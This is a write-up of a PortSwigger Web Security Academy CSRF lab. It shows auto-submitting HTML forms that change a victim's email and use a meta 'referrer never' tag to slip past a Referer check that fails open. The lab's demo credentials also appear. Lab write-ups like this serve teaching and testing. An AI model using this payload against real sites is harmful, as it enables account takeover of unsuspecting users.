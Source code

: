 
# CSRF where Referer validation depends on header being present

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/1.png)

---------------------------------------------

There is a function to update the email:



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/2.png)


It is a POST request with the “Referer” HTTP header:



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/3.png)


First we generate the CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a250042033a996983bd0048004f00df.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


When opened, it returns this error:



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/4.png)


Adding a line to avoid using the Referer header solves this problem:

```
<meta name="referrer" content="never">
```

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a250042033a996983bd0048004f00df.web-security-academy.net/my-account/change-email" method="POST">
      <meta name="referrer" content="never">
      <input type="hidden" name="email" value="test777&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/5.png)